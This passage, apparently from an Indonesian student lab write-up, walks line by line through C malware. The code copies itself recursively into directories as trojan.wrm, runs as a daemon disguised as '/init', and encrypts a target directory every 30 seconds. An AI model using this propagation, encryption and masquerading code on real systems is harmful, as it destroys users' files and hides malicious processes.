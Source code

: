 - `DIR *dir = opendir(direktoriTarget); if (!dir) return;` Membuka direktori target untuk dibaca.
- `while ((entri = readdir(dir)) != NULL) { if (strcmp(entri->d_name, ".") == 0 || strcmp(entri->d_name, "..") == 0) continue;` Membaca setiap entri di dalam direktori.
- `snprintf(path, sizeof(path), "%s/%s", direktoriTarget, entri->d_name);` Membentuk path lengkap dari entri direktori yang sedang diproses.
- `struct stat st; if (stat(path, &st) == -1) continue;` Mendapatkan informasi tentang entri tersebut.
- `if (S_ISDIR(st.st_mode)) { trojan(path, lokasiMalware); }` Memanggil fungsi trojan secara rekursif untuk menyebarkan malware ke subdirektori.
- `char pathTujuan[1024]; snprintf(pathTujuan, sizeof(pathTujuan), "%s/trojan.wrm", direktoriTarget);` Menentukan path tujuan untuk malware.
- `FILE *src = fopen(lokasiMalware, "rb");
FILE *dst = fopen(pathTujuan, "wb");
if (src && dst) {
    char buf[4096];
    size_t jumlah;
    while ((jumlah = fread(buf, 1, sizeof(buf), src)) > 0) {
        fwrite(buf, 1, jumlah, dst);
    }
}` Membuka file malware dari lokasiMalware dan membuka file tujuan trojan.wrm di direktori target. Kemudian, menyalin isi file malware ke dalam file tujuan.

4. Daemon
```bash
void inidaemon(const char *direktoriTarget, const char *lokasiSendiri) {
    pid_t pid, sid;

    pid = fork();
    if (pid < 0) exit(EXIT_FAILURE);
    if (pid > 0) exit(EXIT_SUCCESS);

    umask(0);
    sid = setsid();
    if (sid < 0) exit(EXIT_FAILURE);
    if ((chdir("/")) < 0) exit(EXIT_FAILURE);

    close(STDIN_FILENO);
    close(STDOUT_FILENO);
    close(STDERR_FILENO);

    prctl(PR_SET_NAME, (unsigned long)"/init", 0, 0, 0);

    while (1) {
        time_t waktu = time(NULL);
        unsigned char kunci = (unsigned char)(waktu % 256);

        encrypt(direktoriTarget, kunci);
        trojan(direktoriTarget, lokasiSendiri);

        sleep(30);
    }
}
```
- `pid_t pid, sid;
pid = fork();
if (pid < 0) exit(EXIT_FAILURE);
if (pid > 0) exit(EXIT_SUCCESS);` Melakukan fork() untuk membuat proses anak.
- `umask(0);
sid = setsid();
if (sid < 0) exit(EXIT_FAILURE);
if ((chdir("/")) < 0) exit(EXIT_FAILURE);`
   1. umask(0) mengatur permission default file agar tidak dibatasi.
  